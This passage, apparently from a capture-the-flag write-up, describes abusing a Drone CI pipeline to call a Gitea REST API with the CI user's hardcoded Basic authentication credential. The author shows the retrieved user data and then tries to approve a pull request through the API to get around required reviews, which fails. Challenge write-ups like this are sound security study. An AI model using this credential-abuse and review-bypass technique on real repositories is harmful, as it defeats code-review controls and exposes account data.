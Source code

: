## Afterthoughts

Since this is done, after the actual competition (I did not mange to solve this in time), we had a few discussions in discord.
As per the admins, the intended solution, should take advantage of [this issue](
https://medium.com/cider-sec/bypassing-required-reviews-using-github-actions-6e1b29135cc7#:~:text=A%20newly%20discovered%20security%20flaw,down%20the%20pipeline%20to%20production), so let's try to also merge to master fully automated 🤣


We can check, if the Basic Autentication for the drone ci user works by checking the gitea REST API from our pripeline
```yaml
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: checkThatApiWorks
    commands:
    - |-
      curl -X 'GET' \
      'http://git.challenge.nahamcon.com:32482/api/v1/user' \
      -H 'accept: application/json' \
      -H 'authorization: Basic ZHJvbmVjaTp0NEswQHMhcVNG' > droneci-user.txt      
    - cat droneci-user.txt
  - name: linting
    commands:
      - phplint --lint .
```

Indeed, we ware able to access the user data of the user:

```
+ cat droneci-user.txt

{"id":5,"login":"droneci","full_name":"","email":"droneci@justhacking.com","avatar_url":"http://git.challenge.nahamcon.com:32482/avatars/bdc114a4c065404fbc1f7edea5ef85f9","language":"de-DE","is_admin":false,"last_login":"2022-05-01T18:34:37Z","created":"2022-04-23T15:58:48Z","restricted":false,"active":true,"prohibit_login":false,"location":"","website":"","description":"","visibility":"private","followers_count":0,"following_count":0,"starred_repos_count":0,"username":"droneci"}
```

Now let's again create a pull request manually and check if we can execute an approval by the REST API.  
We can debug Giteas REST API by using the proviedes swagger-endpoint `/api/swagger`

**The request got to the server, but the PR is still in state pending fro some reason.**

![image](assets/testAutomaticPRApproval-Failed.PNG)

